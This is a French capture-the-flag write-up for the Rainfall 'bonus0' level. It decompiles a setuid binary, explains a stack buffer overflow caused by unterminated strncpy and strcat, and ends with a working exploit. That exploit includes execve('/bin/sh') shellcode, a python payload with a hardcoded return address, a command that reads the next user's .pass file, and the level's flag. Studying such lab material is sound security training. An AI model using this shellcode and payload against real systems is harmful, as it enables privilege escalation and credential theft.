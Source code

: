 # rainfall : [bonus0]

Observations:
---

#### Source décompilée:
```c
char *p(char *dest, char *s)
{
  char buf[4104];

  puts(s);
  read(0, buf, 0x1000u);
  *strchr(buf, 10) = 0;
  return strncpy(dest, buf, 0x14u);
}

char *pp(char *dest)
{
  char src[20];
  char v3[28];

  p(src, " - ");
  p(v3, " - ");
  strcpy(dest, src);
  *(_WORD *)&dest[strlen(dest)] = ' ';
  return strcat(dest, v3);
}

int main(int argc, const char **argv, const char **envp)
{
  char s[42];

  pp(s);
  puts(s);
  return 0;
}
```

#### Détails du programme:
```bash
-rwsr-s---+ 1 bonus1 users  5566 Mar  6  2016 bonus0
```

#### Fonctions:

| Nom | Description |
| --- | ----------- |
| `<main>` | Appelle la fonction `<pp>` avec comme paramètre le tableau `s` de **42** octets puis affiche le contenu de ce dernier. |
| `<pp>` | Execute la fonction `<p>` deux fois, avec pour chaque appelle son paramètre réspectif; <br> Le tableau `src` de **20** octets ainsi que le tableau `v3` de **28** octets. <br> Ensuite elle copie le contenu de `src` dans le tableau `dest` passée en paramètre d'entrée. <br> Le caractère après la fin de ce tableau est changé en `' '`. <br> Et pour finir `dest` est concaténé avec `v3` et la fonction retourne `dest`. |
 | `<p>` | Affiche la chaîne de caractères `s` passée en paramètre puis lis **4096** octets de l'entrée standard pour les copier dans <br> le tableau `buf` de **4104** octets; Elle remplace ensuite le premier caractére `'\n'` atteignable par un `'\0'`. <br> Pour finir elle copie ensuite **20** octets du tableau `buf` vers `dest` qui est le tableau en paramètre de fonction et retourne ce dernier. |


#### Conclusions:
Même si les fonctions de lectures et de copies parraissent sécurisées aux premier abord, nous pouvons terminer les chaînes de \
caractères par autre chose que zéro. Les deux tableaux étant côte à côte dans la pile, l'appel à `<strcat>` copiera `dest` et `v3` avec `v3`.\
Copiant ainsi jusqu'à **61** caractères permettant ainsi d'écraser l'adresse de retour de la fonction `<main>` qui a une pile de **64** octets. \
Nous pouvons ainsi rediriger l'ordre d'exécution du programme.


----
Résolution:
----
Nous allons remplir le tableau de la première chaîne avec **20** caractères aléatoires. \
Ensuite nous injectons une fonction en shellcode suivis de caractères de bourrages pour compléter l'appel à `<read>` de **4096** octets. \
Nous finissons par remplir partiellement le buffer de read avec **14** octets aléatoire suivis de l'adresse du buffer de `<read>` préalablement récupéré grace a gdb. \
Puis nous rajoutons un octet de bourrage pour décaler correctement la position de l'adresse de retour du à l'ajout d'un espace au tableau `dest` dans la fonction `<pp>`.


#### Injection:
```asm
# La fonction injectée appelle <system> avec '/bin/sh' en paramètre:

0:  6a 0b                   	push   0xb
2:  58                      	pop    eax
3:  31 f6                   	xor    esi,esi
5:  56                      	push   esi
6:  68 2f 2f 73 68          	push   0x68732f2f
b:  68 2f 62 69 6e          	push   0x6e69622f
10: 89 e3                   	mov    ebx,esp
12: 31 c9                   	xor    ecx,ecx
14: 89 ca                   	mov    edx,ecx
16: cd 80                   	int    0x80
```
#### Commande:
```bash
(python -c "print('A'*20+ '\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'B'*(4096 - 20 - 24 - 1) + '\n' + 'B'*14 + '\x94\xe6\xff\xbf' + 'C')"; echo 'cat /home/user/bonus1/.pass') | /home/user/bonus0/bonus0
```

**Flag :** cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
